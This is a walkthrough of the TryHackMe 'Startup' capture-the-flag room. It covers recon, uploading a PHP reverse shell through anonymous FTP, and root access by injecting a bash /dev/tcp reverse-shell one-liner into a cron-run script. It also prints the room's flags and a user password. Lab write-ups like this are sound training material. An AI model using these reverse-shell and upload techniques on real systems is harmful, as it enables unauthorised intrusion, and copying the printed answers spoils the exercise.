 ```yaml
---
title: "THM Startup Walkthrough"
date: "2025-04-08"

layout: ../../layouts/PostLayout.astro
description: "Detail walkthrough on tryhackme machine startup."

img_path : "/images/startup/theme.png"
img_alt: "web image"
---
```


# Try Hack Me Room: Startup

![CTF](/images/startup/startup.png)

## Task1: Welcome to Spice Hut!

![CTF](/images/startup/chilli.png)

“We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own the root. Good luck!”

First let’s start the reconnaissance by doing nmap.

![CTF](/images/startup/nmap.png)

3 ports were open.

Port 80 is open so let’s check the http website

![CTF](/images/startup/webpage.png)

There is only one message left by the dev team.

### What is the secret spicy soup recipe?
Since FTP is open, let’s try to login to ftp as anonymous.

![CTF](/images/startup/ftp.png)

List of files and directories inside ftp

![CTF](/images/startup/ls.png)

Now let’s download those files with the ‘get’ command.


This is the important.jpg 

![CTF](/images/startup/important.jpg)

This the notice.txt 

![CTF](/images/startup/notice.png)

From this notice i found one of the username “Maya”

Next I also change the directory to ftp and ls the directories inside it but there are only hidden files.

![CTF](/images/startup/cdftp.png)

Let’s use ffuf and find the directories in http port.

![CTF](/images/startup/ffuf.png)

I found that /files path is there in http port, now let’s check it out.

![CTF](/images/startup/file.png)

Wow, this is a ftp service. We can use this to get access to the machine by uploading a shell to the FTP service and executing it in our browser. I will upload the php reverse shell file, which I saved in php-reverse-shell.php.

To upload the file to the ftp directory on the FTP service, the command is put php-reverse-shell.php.

![CTF](/images/startup/put.png)

I see that a shell.php file is uploaded. We’ll start a netcat listener using the following command: nc -lvnp 1234

![CTF](/images/startup/netcat.png)

With our listener set up, we can click the php-reverse-shell.php file in our browser.

<b>ANS:</b> love


### What are the contents of user.txt?
We got the password for linnie i.e c4ntg3t3n0ughsp1c3, now let’s login using ssh.

![CTF](/images/startup/pass.png)

BOOM! Here i got the user.txt file and the flag

<b>ANS:</b> THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

### What are the contents of root.txt?
Now it’s time to get the root flag. Linnie has 2 other directories that are Documents and scripts. In scripts directories there is something useful.

![CTF](/images/startup/echo.png)

I could see that planner.sh is running every minute and modifying the contents of startup_list.txt.
we can modify /etc/print.sh. I can put the bash command into the print.sh script:<br>
bash -i >& /dev/tcp/10.10.51.47/4444 0>&1

![CTF](/images/startup/nano.png)

I opened a listener in my terminal and in a minute I received the connection( we need to wait a little).

![CTF](/images/startup/root.png)

Finally list the files and grab the root flag.

<b>ANS:</b> THM{f963aaa6a430f210222158ae15c3d76d}

That’s it for this startup room, see you guys on the next try hack me room walkthrough.

